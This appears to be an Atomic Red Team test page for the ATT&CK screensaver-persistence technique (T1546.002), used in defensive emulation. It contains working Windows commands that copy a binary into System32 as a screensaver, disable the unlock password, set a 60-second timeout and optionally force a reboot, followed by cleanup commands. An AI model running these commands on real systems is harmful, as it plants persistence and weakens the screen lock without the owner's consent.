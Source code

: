 # T1546.002 - Event Triggered Execution: Screensaver
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/002)
<blockquote>Adversaries may establish persistence by executing malicious content triggered by user inactivity. Screensavers are programs that execute after a configurable time of user inactivity and consist of Portable Executable (PE) files with a .scr file extension.(Citation: Wikipedia Screensaver) The Windows screensaver application scrnsave.scr is located in <code>C:\Windows\System32\\</code>, and <code>C:\Windows\sysWOW64\\</code>  on 64-bit Windows systems, along with screensavers included with base Windows installations.

The following screensaver settings are stored in the Registry (<code>HKCU\Control Panel\Desktop\\</code>) and could be manipulated to achieve persistence:

* <code>SCRNSAVE.exe</code> - set to malicious PE path
* <code>ScreenSaveActive</code> - set to '1' to enable the screensaver
* <code>ScreenSaverIsSecure</code> - set to '0' to not require a password to unlock
* <code>ScreenSaveTimeout</code> - sets user inactivity timeout before screensaver is executed

Adversaries can use screensaver settings to maintain persistence by setting the screensaver to run malware after a certain timeframe of user inactivity.(Citation: ESET Gazer Aug 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Set Arbitrary Binary as Screensaver](#atomic-test-1---set-arbitrary-binary-as-screensaver)


<br/>

## Atomic Test #1 - Set Arbitrary Binary as Screensaver
This test copies a binary into the Windows System32 folder and sets it as the screensaver so it will execute for persistence. Requires a reboot and logon.

**Supported Platforms:** Windows


**auto_generated_guid:** 281201e7-de41-4dc9-b73d-f288938cbb64





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_binary | Executable binary to use in place of screensaver for persistence | path | C:&#92;Windows&#92;System32&#92;cmd.exe|
| reboot | Set to non-zero value if you want the test to reboot the system so that changes take effect | integer | 0|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg export "HKEY_CURRENT_USER\Control Panel\Desktop" %userprofile%\backup.reg
copy #{input_binary} "%SystemRoot%\System32\evilscreensaver.scr"
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveTimeout /t REG_SZ /d 60 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverIsSecure /t REG_SZ /d 0 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "%SystemRoot%\System32\evilscreensaver.scr" /f
if #{reboot} NEQ 0 shutdown /r /t 0
```

#### Cleanup Commands:
```cmd
reg import %userprofile%\backup.reg
del %userprofile%\backup.reg
del %SystemRoot%\System32\evilscreensaver.scr
```





<br/>
